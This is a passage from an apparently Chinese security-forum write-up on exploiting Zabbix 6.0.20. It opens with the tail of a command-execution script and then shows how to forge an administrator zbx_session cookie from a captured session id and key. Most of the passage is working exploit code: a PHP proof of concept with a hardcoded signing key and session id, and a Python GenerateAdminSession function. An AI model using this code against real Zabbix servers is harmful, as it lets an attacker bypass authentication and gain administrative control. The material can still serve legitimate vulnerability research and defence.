 ```python
        print(cmd_exe_json["result"]["value"])
    else:
        print(cmd_exe_json["error"]["data"])

```

2.3 利用获取到的管理员session id和session key构造zbx\_session登录管理界面
-------------------------------------------------------

作者在报告中提了一嘴`有session_id和session_key就可以得到sign值，然后就可以拼出zbx_session`：

网上也没找到相应的成品代码，那就去翻源码。

`zabbix-6.0.20\ui\include\classes\core\CCookieSession.php`这里面的代码是用来处理和`session`相关的操作的，代码也是写的通俗易懂：

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-a1a9c28e54ca78e4e876ccbfbe8c5c2648352c8a.png)

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-d6a1e41e883c05143591da30d36ffc13d375fb38.png)

就是做一个`SHA256`的`hash`操作，那感情好啊，直接写出`php`形式的`poc`：

```php
<?php
    function sign(string $data): string {
        $key = "927f855d3388d6daedb153d3de864970";
        return hash_hmac("sha256", $data, $key);
    }
    function prepareData(array $data): string {
        $data['sign'] = sign(json_encode($data));
        return base64_encode(json_encode($data));
    }
    function set(string $key, $value):array {
        $_SESSION[$key] = $value;
        return $_SESSION;
    }
set("sessionid", "be52fe697c5935099d441f03c5c68bff");
set("serverCheckResult", true);
$session_ = set("serverCheckTime", time());
$res = prepareData($session_);
echo $res;
?>
```

改成`python`代码的时候需要注意字典的`item`的位置问题，示例代码如下：

```python
def GenerateAdminSession(sessionid, session_key):
    def sign(data: str) -> str:
        key = session_key.encode()
        return hmac.new(key, data.encode('utf-8'), hashlib.sha256).hexdigest()

    def prepare_data(data: dict) -> str:
        sorted_data = OrderedDict(data.items())
        sorted_data['sign'] = sign(json.dumps(sorted_data, separators=(',', ':')))
        return base64.b64encode(json.dumps(sorted_data, separators=(',', ':')).encode('utf-8')).decode('utf-8')

    session = {
        "sessionid": sessionid,
        "serverCheckResult": True,
        "serverCheckTime": int(time.time())
    }
    res = prepare_data(session)
    return res
```
